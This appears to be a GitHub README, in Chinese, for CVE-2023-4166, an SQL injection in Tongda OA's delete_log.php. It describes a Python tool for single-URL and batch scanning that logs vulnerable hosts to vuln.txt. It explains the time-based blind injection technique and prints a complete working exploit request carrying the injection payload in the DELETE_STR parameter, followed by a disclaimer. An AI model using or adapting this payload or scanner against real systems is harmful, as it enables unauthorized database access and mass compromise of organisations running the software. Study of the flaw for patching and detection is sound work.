

# CVE-2023-4166

通达OA general/system/seal_manage/dianju/delete_log.php 存在SQL注入漏洞。


## 工具利用

python3 CVE-2023-4166.py -u http://127.0.0.1:1111 单个url测试

python3 CVE-2023-4166.py -f url.txt 批量检测

扫描结束后会在当前目录生成vuln.txt记录存在漏洞的url


漏洞原理是用两次请求延时注入判断数据库第一个字符是否为T，如果第一次延时成功并且第二次没有延时则认为存在漏洞

## exp 

```
GET /general/system/seal_manage/dianju/delete_log.php?DELETE_STR=1)%20and%20(substr(DATABASE(),1,1))=char(84)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1 HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1

```


## 免责声明

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。
